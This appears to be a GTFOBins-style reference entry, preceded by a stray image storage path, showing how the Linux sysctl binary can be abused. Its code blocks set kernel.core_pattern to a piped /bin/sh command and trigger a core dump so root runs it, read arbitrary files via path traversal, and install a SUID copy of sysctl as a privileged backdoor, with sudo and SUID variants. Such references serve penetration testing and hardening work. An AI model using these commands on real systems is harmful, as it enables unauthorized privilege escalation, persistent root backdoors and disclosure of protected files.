 # GTFOBin: sysctl

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

The command is executed by root in the background when a core dump occurs.

```
COMMAND='/bin/sh -c id>/tmp/id'
sysctl "kernel.core_pattern=|$COMMAND"
sleep 9999 &
kill -QUIT $!
cat /tmp/id
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The `-p` argument can also be used in place of `-n`. In both cases though the output might get corrupted, so this might not be suitable to read binary files.

```
LFILE=file_to_read
/usr/sbin/sysctl -n "/../../$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which sysctl) .

COMMAND='/bin/sh -c id>/tmp/id'
./sysctl "kernel.core_pattern=|$COMMAND"
sleep 9999 &
kill -QUIT $!
cat /tmp/id
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
COMMAND='/bin/sh -c id>/tmp/id'
sudo sysctl "kernel.core_pattern=|$COMMAND"
sleep 9999 &
kill -QUIT $!
cat /tmp/id
```